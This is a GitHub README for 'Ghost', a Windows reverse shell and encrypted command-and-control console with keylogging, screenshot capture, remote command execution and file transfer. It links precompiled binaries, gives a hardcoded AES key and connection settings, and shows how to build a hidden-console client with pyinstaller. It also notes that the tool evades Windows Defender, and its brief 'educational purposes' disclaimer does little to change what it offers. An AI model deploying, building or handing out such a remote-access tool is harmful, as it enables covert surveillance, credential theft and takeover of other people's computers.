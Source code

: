 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 


Some of its features are
-------------------------

-Sends commands to cmd and powershell,

-Creates or extracts zip files

-Downloads files from the Internet,

-Supports file upload and download,

-Creates keylogger program,

-Takes a screenshot

-Communication between server and client is AES encrypted.

The compiled version of the program can be downloaded from the links below.
--------------------------------------------------------------------------
1) Compiled without using the "--noconsole" command 
  
  ghost_v4_showconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/1HP1k290aP3AUrUK29sgq-GRfaxSKxcJJ/view?usp=sharing

2) Compiled using the "--noconsole" command

  ghost_v4_noconsole.rar ==> zip password: "ghost_v4"

  https://drive.google.com/file/d/18KQ2JjyOAwZ34Gn_hYyUJMPNq6XeqhhS/view?usp=sharing


Requirements
-------------------
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

>> pip install pycryptodome

>> pip install  requests

>> pip install pyautogui

>> pip install pyinstaller

"pyinstaller" will be used to make the code one piece executable


Settings
--------------

>> (1) master.py

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
    
    
   
   >> (2) slave.py
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
    
  
>>Except for encryption, these values can be changed with initial parameters if desired.

master.exe -h      ==> Shows help parameters.

slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling

Example:

master -udp -c:cp857  -t:00 8080             ==> (8080 port)

master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)

master 7272                                  ==> (7272 port)

slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)

slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)

slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


compilation
------------

(show console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --icon=slave.ico slave.py

or (hide console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --noconsole --icon=slave.ico slave.py


Commands for master.py
-----------------------

>> commands      ==> Shows commands very briefly.

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


>> help          ==> Shows commands in detail.

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some images of the working of the program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


legal warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

